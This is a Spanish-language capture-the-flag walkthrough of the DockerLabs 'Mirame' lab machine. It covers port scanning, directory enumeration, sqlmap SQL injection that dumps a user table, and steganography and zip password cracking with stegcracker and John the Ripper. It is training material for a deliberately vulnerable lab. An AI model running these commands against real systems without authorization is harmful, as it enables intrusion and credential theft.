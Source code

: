 --
title: Mirame - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3c6a11d0-98ea-449d-b124-dc7951cb6a84)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/79604c88-03f7-4c33-acf2-5076e32869f5)

# Exploración Web

Al acceder a la página web, observamos una pagina de login.
![image](https://github.com/user-attachments/assets/01915018-0278-4a6a-8c54-8f9f615b7627)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/aabf1211-fc56-491c-bbc2-5dedb231eaa7)

Encontramos varias rutas las cuales , no encontramls nada interesante por ahora.

## Inyeccion Sql 

Lo que haremos sera probar en el login del principio con `sqlmap`.


Recogeremos la peticion y la guardaremos en un archivo `request.req` y poniendo `*` donde queremos que modifique los campos.

![image](https://github.com/user-attachments/assets/6992ffe9-6a37-463e-ad12-146eb37d40ed)

Vamos a porbar si es inyectable primero

```bash
sqlmap -r request.req -p searchitem --batch
```
![image](https://github.com/user-attachments/assets/a162743f-2200-44fe-a0f1-9c7fd467dc44)

Parece que si es inyectable ahora vamos a ver que base de datos contiene.

```bash
sqlmap -r request.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/0af6ca88-b27f-4587-957f-587739457018)

Ahora vamos a ver que tablas tiene esa base de datos.
```bash
sqlmap -r request.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/39913051-dd61-4764-a4b5-87f4e8323bb0)

Que contiene la tabla 
```bash
sqlmap -r request.req  -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/84f30792-6479-41c4-ac21-aee62d06b678)

Usuarios y contraseñas
```bash
sqlmap -r request.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/9d96e32f-a072-44f1-a37f-dae4560dd959)

# Intrusion

Ya teniendo un listado vemos que hay uno llamado `directoriotravieso` y si es es un directorio , por lo que porbamos.

![image](https://github.com/user-attachments/assets/7e4c871d-7e97-4ee3-be7c-43eb56de402b)

Por lo que parecia , era buena mi suposicion , ahora lo que haremos sera descargar esa imagen y ver si contiene un mensaje oculto. 

```bash
steghide --extract -sf miramebien.jpg 
```

Nos pide una contraseña por lo que no podemos ver que contiene.

![image](https://github.com/user-attachments/assets/6c3dfe1d-e35a-4a9e-ab74-e60ff24a4f20)


### Fuerza bruta

Lo que haremos sera fuerza bruta para ver si la contraseña esta en `rockyou`.

```bash
stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/c504e959-4d2b-400d-9789-089e8997c886)

La contraseña era `chocolate`.

Lo volvemos a  porobar a ver que contiene esa imagen de antes.

![image](https://github.com/user-attachments/assets/1025c5bb-f426-477e-b603-a69be1ccbfde)

Y nos ha descargado un ocultito.zip , vamos a descomprimirlo, parece que este también tiene un `password`.

![image](https://github.com/user-attachments/assets/5f28b73b-a61a-43f2-aaa9-bbcc6a49f6d0)

Para romper este archivo usaremos `zip2john` para extraer el `hash`, 
```bash
zip2john ocultito.zip > hash.txt
```
![image](https://github.com/user-attachments/assets/fe45cd36-a9e1-4c2d-a626-bb33c3bdd0f7)

Ahora usaremos `john` para obtener el `password` y siguiendo estos pasos 
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Observamos que el password es `stupid1`.
